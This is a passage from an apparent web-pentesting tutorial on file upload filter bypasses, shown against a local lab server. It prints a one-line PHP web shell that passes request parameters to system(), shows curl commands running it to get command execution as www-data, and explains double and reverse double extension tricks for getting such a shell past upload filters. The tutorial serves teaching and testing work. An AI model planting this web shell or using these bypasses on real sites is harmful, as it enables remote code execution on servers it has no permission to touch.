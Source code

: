 In this case, we can fuzz the file extension and see if any [valid PHP extension](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology) has been left out of it (Figure 9).

<figure><img src="../.gitbook/assets/web_fileUpload_serverSide_6.png" alt=""><figcaption><p>Figure 9: Fuzzing for valid <code>php</code> extensions.</p></figcaption></figure>

By trying both `php5` and `phtml` , we see that only the latter works as the server is not configured to interpret the former as a valid PHP script.

```bash
$ curl http://localhost/labs/uploads/shell.php5?cmd=id
����<?php system($_GET['cmd']); ?>

$ curl http://localhost/labs/uploads/shell.phtml?cmd=id
����uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Some filters might **only check if the extension exists** within the file name, which can be bypassed by renaming the file to `webshell.jpg.phar` (**double extension method**).  Others, might require for the file name to end with an allowed extension so we will have to switch the extensions over, i.e.,  `webshell.phar.jpg` (Figure 10) (**reverse double extension method**).

<figure><img src="../.gitbook/assets/tGLZ1RJh8w.png" alt=""><figcaption><p>Figure 10: Bypassing the extension filter using double extensions.</p></figcaption></figure>
